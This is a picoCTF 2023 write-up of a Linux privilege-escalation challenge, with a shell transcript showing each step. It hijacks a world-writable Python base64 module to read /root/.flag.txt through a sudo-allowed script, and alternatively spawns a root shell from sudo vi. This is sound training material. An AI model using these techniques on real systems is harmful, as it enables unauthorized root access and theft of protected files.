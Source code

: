 # hijacking

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, privilege_escalation
Author: THEONESTE BYAGUTANGAZA

Description:
Getting root access can allow you to read the flag. 
Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. 
SSH is running on the server.
saturn.picoctf.net 52735
Username: picoctf
Password: urTi-qvQtA
 
Hints:
1. Check for Hidden files
2. No place like Home:)
```

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/hijacking]
└─$ ssh -p 52735 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:52735 ([13.59.203.175]:52735)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:52735' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

And then we look for the python file mentioned in the challenge description
```bash
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Nov  4 15:38 .
drwxr-xr-x 1 root    root      21 Aug  4 21:10 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Nov  4 15:38 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```
The python script is owned by root and we are not allowed to modify it.

Lets check what it contains
```python
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

### Check for sudo privileges

Next, lets check what we can run with [sudo](https://en.wikipedia.org/wiki/Sudo)
```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
As expected we can run the server file with python but we can also run vi.

### Hijack a python module - part 1

We will try to hijack one of the python modules used in the server file, that is `base64`, `os` or `socket`.

First we find the path that python uses
```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()
```

Next, we check the file permissions for the module files in the `/usr/lib/python3.8` directory
```bash
picoctf@challenge:/usr/lib/python3.8$ ls -la base64.py os.py socket.py 
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```
Ah perfect, we can modify the `base64.py` file.  
But we still don't know the name of the flag file.

### Find out the flag file name

We can use `vi` to read the `/root` directory just like any file
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo vi /root/
[sudo] password for picoctf: 
```

The result is
```
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                             
./
.vim/
.bashrc
.flag.txt
.profile
```

So now we know that the flag file is `/root/.flag.txt`.

### Hijack a python module - part 2

We add the following line to the `base64.py` file after the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix))
```python
print(open('/root/.flag.txt', 'r').read())
```

### Get the flag

And finally we run the server with sudo to get the flag
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo python3 ~/.server.py 
picoCTF{<REDACTED>}

sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

## Alternative solution

A more direct approach would be to use [vi to launch a shell](https://gtfobins.github.io/gtfobins/vi/) directly
```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh'
[sudo] password for picoctf: 

# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Nov  4 16:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt 
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Shebang (Unix)](https://en.wikipedia.org/wiki/Shebang_(Unix))
- [Wikipedia - sudo](https://en.wikipedia.org/wiki/Sudo)
- [GTFObins - vi](https://gtfobins.github.io/gtfobins/vi/)
